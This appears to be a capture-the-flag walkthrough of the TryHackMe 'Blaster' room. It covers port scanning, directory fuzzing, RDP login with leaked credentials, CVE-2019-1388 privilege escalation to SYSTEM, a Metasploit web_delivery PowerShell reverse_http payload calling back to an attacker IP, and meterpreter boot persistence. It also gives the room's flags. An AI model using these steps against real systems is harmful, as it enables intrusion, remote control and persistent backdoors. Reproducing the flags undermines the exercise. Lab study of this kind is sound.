



# TryHackMe [Blaster](https://tryhackme.com/room/blaster)
### References
* DarkSec. (2021). TryHackMe Blaster Official Walkthrough [YouTube Video]. In YouTube. https://youtu.be/PoRPbbQnhEQ
## Activate Forward Scanners and Launch Proton Torpedoes
### How many ports are open on our target system?
```bash
$ nmap -sCV -Pn -vv <MACHINE_IP>
PORT     STATE SERVICE        REASON  VERSION
80/tcp   open  http           syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
3389/tcp open  ms-wbt-server? syn-ack
| rdp-ntlm-info: 
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2021-07-05T06:05:14+00:00
| ssl-cert: Subject: commonName=RetroWeb
| Issuer: commonName=RetroWeb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-05-21T19:00:50
| Not valid after:  2021-11-20T19:00:50
| MD5:   bd8b f44d 69f6 0851 2c2b 7879 1f08 0ef2
| SHA-1: 7cc7 c6d6 e117 0e45 be2c cc90 d90d cd1b 39d3 ad72
| -----BEGIN CERTIFICATE-----
| MIIC1DCCAbygAwIBAgIQYE9RQ301arpDJLcMX5ssUjANBgkqhkiG9w0BAQsFADAT
| MREwDwYDVQQDEwhSZXRyb1dlYjAeFw0yMTA1MjExOTAwNTBaFw0yMTExMjAxOTAw
| NTBaMBMxETAPBgNVBAMTCFJldHJvV2ViMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8A
| MIIBCgKCAQEAoF7b88qJFNLmqp1ZsGImo8F7dy9B20mb2l3xiJ1qy07yXkcWDGpD
| GP16ZIfp/CFKqqVjD6JL0SXDIPbZUgT4zKgFMBEd8PY4OEPMiBisDHWvNpaq1j6i
| As/TfzhdEMs8Xkj3iaD4WLmiCCKnFYwzxFOQhe+sNeYxEbxhRkc8QHgCaglVRfiB
| G5bYFSju3UmzWSlo84AJvisuqiUeYnKbNdra9Dm/voZx0UA8QZcQh1lf3CDI/xXI
| qSavE6EU0CV3RtWz4lGeIx827rbp9oHQl2AUj1uFXoWuFJcWTHcI6iymAeTiwy6R
| jcAt1T8oxrkFonVG7Fg6kt5IDVFqjxd2wwIDAQABoyQwIjATBgNVHSUEDDAKBggr
| BgEFBQcDATALBgNVHQ8EBAMCBDAwDQYJKoZIhvcNAQELBQADggEBAF9vEUlM4lla
| LzBZWVvYBV3nMgyzoD9m6Tm57ocnAkQKansW+1wr7PLPRCLw6t73H2L0ExnZ1WdN
| t6r0wehNqLh0zlecDOsYQvY4Wvp/VnHHzi4BK9HQTN8TtbEPi6fFp5q92D0ZZwih
| Q74QZ5lZ10GJEajSM0yTgBumJCvbpgMh8bXr6YxSJ7Y0khiHSRMrJHKX0NmPRVsV
| dK59kAogoReXNF+MvciYMhnO+GA7lR9k897CCzccwy7zLqbZscKGnkX0iMDNaGPJ
| o4r9WJWNHHoFbjwb0LPeZqikrbk6hmr7NOWOKp5si+6Eu3n27COpmtoxUTCUcfFw
| mh/rxtNNuQc=
|_-----END CERTIFICATE-----
|_ssl-date: 2021-07-05T06:05:21+00:00; 0s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
**Answer**: `2`
### Looks like there's a web server running, what is the title of the page we discover when browsing to it?
**Answer**: `IIS Windows Server`
### Interesting, let's see if there's anything else on this web server by fuzzing it. What hidden directory do we discover?
```bash
$ gobuster dir -u http://<MACHINE_IP> -w $(pwd)/directory-list-2.3-medium.txt -t 40
/retro                (Status: 301) [Size: 150] [--> http://<MACHINE_IP>/retro/]
```
**Answer**: `/retro`
### Navigate to our discovered hidden directory, what potential username do we discover?
* From `http://<MACHINE_IP>/retro/`:


**Answer**: `Wade`
### Crawling through the posts, it seems like our user has had some difficulties logging in recently. What possible password do we discover?
* Wade's comment on `http://<MACHINE_IP>/retro/index.php/2019/12/09/ready-player-one/`:


**Answer**: `parzival`
### Log into the machine via Microsoft Remote Desktop (MSRDP) and read `user.txt`. What are it's contents?
1. Use [Remmina](https://remmina.org/) to connect to `<MACHINE_IP>` username of `wade` and password of `parzival`.
2. Open the `user.txt` with Notepad which is loacted on Wade's desktop:


**User Flag**: `THM{HACK_PLAYER_ONE}`
## Breaching the Control Room
### Look around the machine and see if you can find the CVE which was researched on this server. What CVE was it?
* [DarkSec's video](https://youtu.be/PoRPbbQnhEQ) shows that the server's owner searched about `CVE-2019-1388`, however I could not find that in Internet Explorer's history logs.

**Answer**: `CVE-2019-1388`
### Looks like an executable file is necessary for exploitation of this vulnerability and the user didn't really clean up very well after testing it. What is the name of this executable?

### Now that we've spawned a terminal, let's go ahead and run the command `whoami`. What is the output of running this?
1. Open `hhupd.exe` from the Desktop as Administrator and Show more information about the publisher's certificate:

2. Open the link of the certificate with Internet Explorer:

3. Press <kbd>Control</kbd> + <kbd>S</kbd>:

4. Navigate to `C:\Windows\System32`, type `C:\Windows\System32\*.*` in the file name field and open `cmd.exe`:
```
C:\Windows\System32>whoami
nt authority\system
```

**Answer**: `nt authority\system`
### Now that we've confirmed that we have an elevated prompt, read the contents of `root.txt` on the Administrator's desktop. What are the contents?
```
C:\Windows\System32>type ..\..\Users\Administrator\Desktop\root.txt
THM{COIN_OPERATED_EXPLOITATION}
```
**Root Flag**: `THM{COIN_OPERATED_EXPLOITATION}`
## Adoption into the Collective
### First, let's set the target to PSH (PowerShell). Which target number is PSH?
```bash
$ msfconsole -q
msf6 > use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
msf6 exploit(multi/script/web_delivery) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Python
   1   PHP
   2   PSH
   3   Regsvr32
   4   pubprn
   5   SyncAppvPublishingServer
   6   PSH (Binary)
   7   Linux
   8   Mac OS X
msf6 exploit(multi/script/web_delivery) > set target 2
target => 2
msf6 exploit(multi/script/web_delivery) > set payload windows/meterpreter/reverse_http
payload => windows/meterpreter/reverse_http
msf6 exploit(multi/script/web_delivery) > set LHOST <OPENVPN_IP>
msf6 exploit(multi/script/web_delivery) > run -j
```
**Answer**: `2`
### What command can we run in our meterpreter console to setup persistence which automatically starts when the system boots?
* According to [Offensive Security Metasploit Documentation](https://www.offensive-security.com/metasploit-unleashed/meterpreter-service/):
```bash
meterpreter > run persistence -h

[!] Meterpreter scripts are deprecated. Try post/windows/manage/persistence_exe.
[!] Example: run post/windows/manage/persistence_exe OPTION=value [...]
Meterpreter Script for creating a persistent backdoor on a target host.

OPTIONS:

    -A        Automatically start a matching exploit/multi/handler to connect to the agent
    -L   Location in target host to write payload to, if none %TEMP% will be used.
    -P   Payload to use, default is windows/meterpreter/reverse_tcp.
    -S        Automatically start the agent on boot as a service (with SYSTEM privileges)
    -T   Alternate executable template to use
    -U        Automatically start the agent when the User logs on
    -X        Automatically start the agent when the system boots
    -h        This help menu
    -i   The interval in seconds between each connection attempt
    -p   The port on which the system running Metasploit is listening
    -r   The IP of the system running Metasploit listening for the connect back
```

**Answer**: `run persistence -X`
